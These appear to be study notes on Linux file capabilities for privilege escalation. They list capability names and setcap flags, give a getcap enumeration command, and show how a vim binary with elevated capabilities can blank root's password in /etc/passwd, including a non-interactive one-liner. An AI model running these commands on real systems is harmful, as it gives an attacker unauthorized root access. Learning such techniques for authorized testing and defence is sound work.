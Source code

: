 **Set Capability
```shell-session
sudo setcap cap_net_bind_service=+ep /usr/bin/vim.basic
```
- Allows binding of ports when it is usually not allowed

Capabilities
- cap_sys_admin
  - Allows to perform actions with administrative privileges
- cap_sys_chroot
  - Allows to change the root directory for the current process
- cap_sys_ptrace
  - Allows to attach to and debug other processes  
- cap_sys_nice
  - Allows to raise or lower the priority of processes
- cap_sys_time
  - Allows to modify the system clock
- cap_sys_resource
  - Allows to modify system resource limits
- cap_sys_module
  - Allows to load and unload kernel modules
- cap_net_bind_service
  - Allows to bind to network ports

Values
- =
  - sets capability but does not grant any privileges  
- +ep
  - grants effective and permitted privileges
- +ei
  - grants inheritable privileges to child spawned processes
- +p
  - grants permitted privileges
 
**Linux privilege escalation capabilities
- cap_setuid
- cap_setgid
- cap_sys_admin
- cap_dac_override

**Enumerating capabilities
```shell-session
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```

**Exploitation
```shell-session
getcap /usr/bin/vim.basic
/usr/bin/vim.basic /etc/passwd
```
- Take out the 'x' in the line now we can use su to login to root

**Make changes in non-interactive mode
```shell-session
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
cat /etc/passwd | head -n1
```
- Take out the 'x' in the line now we can use su to login to root

